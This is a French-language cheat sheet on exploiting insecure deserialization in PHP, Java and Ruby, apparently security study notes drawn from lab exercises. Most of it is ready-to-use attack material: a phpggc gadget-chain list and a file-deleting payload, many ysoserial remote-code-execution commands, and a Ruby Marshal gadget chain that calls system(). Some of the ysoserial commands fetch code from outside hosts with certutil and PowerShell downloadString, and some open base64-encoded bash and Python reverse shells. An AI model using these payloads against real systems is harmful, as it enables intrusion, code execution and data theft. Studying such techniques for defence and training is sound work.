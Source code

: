 ## PHP Deserialisation

Exemple : `O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}`

- `O:4:"User"` : Un objet avec un nom de classe de 4 caractères "User"
- `2` : L'objet a deux propriétés
- `s:4:"name"` : Le nom du premier attribut est composé de 4 caractères "name"
- `s:6:"carlos"` : La valeur de l'attribut est composé de 6 caractères "carlos"
- `s:10:"isLoggedIn"` : Le nom du second attribut est composé de 10 caractères "isLoggedIn"
- `b:1` : La valeur de l'attribut est un booléen à true

### Fonctions de sérailisation et désérialisation

- `serialize()` : Retourne une chaîne de caractères contenant une représentation sérialisée de la valeur passée en paramètre.
- `unserialize()` : Retourne la valeur initiale d'une variable qui a été sérialisée.

### Fonctions magiques

Les fonctions magiques sont des fonctions qui sont appelées automatiquement à l'instanciation d'un objet.

Par exemple :

```php
class User {
    public $name;
    public $isLoggedIn;

    public function __construct($name) {
        $this->name = $name;
        $this->isLoggedIn = false;
    }
}
```

La fonction `__construct()` est appelée automatiquement lors de l'instanciation de l'objet.

### Outils pour la sérialisation

- (phpggc)[https://github.com/ambionics/phpggc]

```bash
$ ./phpggc -l

Gadget Chains
-------------

NAME                                      VERSION                                              TYPE                   VECTOR         I    
Bitrix/RCE1                               17.x.x <= 22.0.300                                   RCE (Function call)    __destruct          
CakePHP/RCE1                              ? <= 3.9.6                                           RCE (Command)          __destruct          
CakePHP/RCE2                              ? <= 4.2.3                                           RCE (Function call)    __destruct          
CodeIgniter4/FR1                          4.0.0 <= 4.3.6                                       File read              __toString     *    
CodeIgniter4/RCE1                         4.0.2 <= 4.0.3                                       RCE (Function call)    __destruct          
CodeIgniter4/RCE2                         4.0.0-rc.4 <= 4.3.6                                  RCE (Function call)    __destruct          
CodeIgniter4/RCE3                         4.0.4 <= 4.3.6                                       RCE (Function call)    __destruct          
CodeIgniter4/RCE4                         4.0.0-beta.1 <= 4.0.0-rc.4                           RCE (Function call)    __destruct          
CodeIgniter4/RCE5                         -4.1.3+                                              RCE (Function call)    __destruct          
CodeIgniter4/RCE6                         -4.1.3 <= 4.2.10+                                    RCE (Function call)    __destruct          
Doctrine/FW1                              ?                                                    File write             __toString     *    
Doctrine/FW2                              2.3.0 <= 2.4.0 v2.5.0 <= 2.8.5                       File write             __destruct     *    
Doctrine/RCE1                             1.5.1 <= 2.7.2                                       RCE (PHP code)         __destruct     *    
Doctrine/RCE2                             1.11.0 <= 2.3.2                                      RCE (Function call)    __destruct     *    
Dompdf/FD1                                1.1.1 <= ?                                           File delete            __destruct     *    
...
```

```bash
$./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt'

O:47:"Symfony\Component\Cache\Adapter\TagAwareAdapter":2:{s:57:"Symfony\Component\Cache\Adapter\TagAwareAdapterdeferred";a:1:{i:0;:33:"Symfony\Component\Cache\CacheItem":2:{s:11:"*poolHash";i:1;s:12:"*innerItem";s:26:"rm /home/carlos/morale.txt";}}s:53:"Symfony\Component\Cache\Adapter\TagAwareAdapterpool";O:44:"Symfony\Component\Cache\Adapter\ProxyAdapter":2:{s:54:"Symfony\Component\Cache\Adapter\ProxyAdapterpoolHash";i:1;s:58:"Symfony\Component\Cache\Adapter\ProxyAdaptersetInnerItem";s:4:"exec";}}
```

## Java Deserialisation

La sérialisation en Java n'est pas aussi facilement lisible que la sérialisation en PHP.

Cependant, il y a quelques indices qui nous indiquent que nous avons affaire à une sérialisation Java.

- `rO0` : C'est un en-tête de sérialisation Java encodé en base64.
- `ac ed` : C'est un en-tête de sérialisation Java encodé en hexadécimal.

### Fonctions de sérailisation et désérialisation

- `ObjectInputStream.readObject()` : Lit un objet à partir du flux d'entrée.
- `ObjectOutputStream.writeObject()` : Écrit un objet dans le flux de sortie.

### Outils pour la sérialisation

- [ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial.jar)

**yoserial nécessite la version 8 de Java.**

```bash
# PoC to make the application perform a DNS req
java -jar ysoserial.jar URLDNS http://b7j40108s43ysmdpplgd3b7rdij87x.burpcollaborator.net > payload

# PoC RCE in Windows
# Ping
java -jar ysoserial.jar CommonsCollections5 'cmd /c ping -n 5 127.0.0.1' > payload
# Time, I noticed the response too longer when this was used
java -jar ysoserial.jar CommonsCollections4 "cmd /c timeout 5" > payload
# Create File
java -jar ysoserial.jar CommonsCollections4 "cmd /c echo pwned> C:\\\\Users\\\\username\\\\pwn" > payload
# DNS request
java -jar ysoserial.jar CommonsCollections4 "cmd /c nslookup jvikwa34jwgftvoxdz16jhpufllb90.burpcollaborator.net"
# HTTP request (+DNS)
java -jar ysoserial.jar CommonsCollections4 "cmd /c certutil -urlcache -split -f http://j4ops7g6mi9w30verckjrk26txzqnf.burpcollaborator.net/a a"
java -jar ysoserial.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAYwBlADcAMABwAG8AbwB1ADAAaABlAGIAaQAzAHcAegB1AHMAMQB6ADIAYQBvADEAZgA3ADkAdgB5AC4AYgB1AHIAcABjAG8AbABsAGEAYgBvAHIAYQB0AG8AcgAuAG4AZQB0AC8AYQAnACkA"
## In the ast http request was encoded: IEX(New-Object Net.WebClient).downloadString('http://1ce70poou0hebi3wzus1z2ao1f79vy.burpcollaborator.net/a')
## To encode something in Base64 for Windows PS from linux you can use: echo -n "<PAYLOAD>" | iconv --to-code UTF-16LE | base64 -w0
# Reverse Shell
## Encoded: IEX(New-Object Net.WebClient).downloadString('http://192.168.1.4:8989/powercat.ps1')
java -jar ysoserial.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4ANAA6ADgAOQA4ADkALwBwAG8AdwBlAHIAYwBhAHQALgBwAHMAMQAnACkA"

#PoC RCE in Linux
# Ping
java -jar ysoserial.jar CommonsCollections4 "ping -c 5 192.168.1.4" > payload 
# Time
## Using time in bash I didn't notice any difference in the timing of the response
# Create file
java -jar ysoserial.jar CommonsCollections4 "touch /tmp/pwn" > payload
# DNS request
java -jar ysoserial.jar CommonsCollections4 "dig ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
java -jar ysoserial.jar CommonsCollections4 "nslookup ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# HTTP request (+DNS)
java -jar ysoserial.jar CommonsCollections4 "curl ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net" > payload
java -jar ysoserial.jar CommonsCollections4 "wget ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# Reverse shell
## Encoded: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
java -jar ysoserial.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}" | base64 -w0
## Encoded: export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
java -jar ysoserial.jar CommonsCollections4 "bash -c {echo,ZXhwb3J0IFJIT1NUPSIxMjcuMC4wLjEiO2V4cG9ydCBSUE9SVD0xMjM0NTtweXRob24gLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vc2giKSc=}|{base64,-d}|{bash,-i}"

# Base64 encode payload in base64
base64 -w0 payload
```

## Ruby désérialisation

Il existe un gadget chain pour les versions de Ruby entre 2.0 et 2.5.

```ruby
Gem::SpecFetcher
Gem::Installer
require "base64"
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end
wa1 = Net::WriteAdapter.new(Kernel, :system)
rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "PAYLOAD_HERE")
wa2 = Net::WriteAdapter.new(rs, :resolve)
i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")
n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)
t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)
r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)
payload = Marshal.dump({payload: [Gem::SpecFetcher, Gem::Installer, r]})
puts Base64.strict_encode64(payload)
```